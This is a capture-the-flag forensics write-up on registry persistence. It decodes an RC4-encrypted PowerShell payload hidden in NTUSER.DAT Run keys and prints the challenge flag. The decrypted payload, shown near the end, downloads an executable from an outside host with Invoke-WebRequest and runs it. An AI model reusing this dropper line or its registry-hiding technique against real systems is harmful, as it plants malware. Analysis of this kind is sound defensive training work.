




# [Cyber Apocalypse](index.md) - Forensics - Golden Persistence

In this challenge, we are given an NTUSER.DAT file, and told that malware keeps coming back on the system.

Using Eric Zimmerman's [Registry Explorer](https://ericzimmerman.github.io), we can take a closer look at this file.

If malware is persisting after it's been removed, the first place that I like to look is:
```
/SOFTWARE/Microsoft/Windows/CurrentVersion/Run/
```
Any registry keys in this location will run when Windows has started.

In this case, we see 3 programs running on boot:



 - Onedrive client
 - A suspicious powershell command with a cryptic name
 - Microsoft Edge (probably an auto updater? probably not relevant for this challenge)

 Taking a closer look at that powershell script, we can see that it's been given a large blob of encoded text (probably base64 encoded by the looks).

 

Decoding this gives us:

 

Looks like some Powershell code, but every second character is a null character (`0x00`). Doing a search and replace in VSCode helps us remove these - use `\x00` and replace it with an empty string. 



Even the individual functions in this file get flagged as a virus.

The `enc` function appears to be an implementation of the **RC4** encryption algorithm. Simply copying and pasting bits of it into a Google search confirms this.
The `HexToBin` function appears to just convert a hex value to a byte array for the encryption algorithm.

It looks like we have an encryption key: `Q0mmpr4B5rvZi3pS`, and it looks like the ciphertext is hidden in various locations:

```powershell
[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
```
Back to Registry Explorer to retrieve the parts of the ciphertext:

```
F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39
```

```
CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1
```

```
C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D
```

```
D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1
```

```
84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB
```

And these get concatenated together to form the entire encrypted message:

```
F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4DD814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D184AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB
```
I wasn't especially interested in fighting my antivirus over the decryption code, and probably shouldn't run arbitrary exploit code anyway, so I went to [CyberChef](https://gchq.github.io/CyberChef) to decrypt this. Using the RC4 operation with the passphrase set to `UTF8`, the Input format set to `Hex`, and output set to `UTF8`, the passphrase and ciphertext combination gets us:

```
$path ="C:\ProgramData\windows\goldenf.exe";$exists = Test-Path -Path $path -PathType Leaf;if ( $exists ){Start-Process $path}else{mkdir "C:\ProgramData\windows";Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;$flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";Start-Process $path}
```

and in that blob of text is our flag.

```
HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}
```